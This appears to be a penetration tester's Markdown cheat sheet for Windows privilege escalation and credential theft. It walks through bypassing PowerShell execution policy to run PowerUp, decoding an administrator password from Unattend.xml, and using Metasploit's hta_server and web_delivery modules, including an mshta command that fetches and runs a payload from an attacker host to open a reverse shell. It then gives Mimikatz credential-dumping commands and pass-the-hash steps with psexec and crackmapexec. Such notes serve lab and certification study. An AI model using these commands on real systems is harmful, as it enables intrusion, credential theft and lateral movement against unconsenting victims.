


# PowerUp.ps1

- Download url - https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- `powershell -ep bypass` (PowerShell execution policy bypass)
	- `. .\PowerUp.ps1`
	- `Invoke-PrivescAudit` - it will find misconfig files/leftover files like Unattend.xml

	
	
	- Get password from the Unattend.xml file, decode base64.
	- 
	```
	$password='QWRtaW5AMTIz'
  	$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	echo $password
  	```
	- runas.exe /user:administrator cmd

- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta

**OR**

- exploit/multi/script/webdelivery : when no vulnerable services running but you have access to victim cmd
	- set target PSH\ (Binary)
	- set payload windows/shell/reverse_tcp
	- set PSH-EncodedCommand false
	- copy-paste generated url and execute on victim cmd. should open shell in msf.
- post/multi/manage/shell_to_meterpreter
	- set WIN_TRANSFER VBS


# Mimikatz

- in meterpreter, first, migrate to lsass.exe process.
- run hashdump in meterpreter
- syskey is used to encrypt sam db

- **load kiwi**
	- creds_all
	- lsa_dump_sam
	- lsa_dump_secrets

- alrenatively, create temp directory in C:\Temp and 
- upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
- **.\mimkatz.exe**
	- privilege::debug - should return Privilege '20' OK - This should be a standard for running mimikatz as mimikatz needs local administrator access
	- lsadump::sam
	- sekurlsa::logonpasswords

- use **windows/smb/psexec** to use hashes from hashdump as SMBPass
- set target command / native upload

- `crackmapexec smb <ip> -u <administrator> -H "ntlm_hash" -x "ipconfig"`
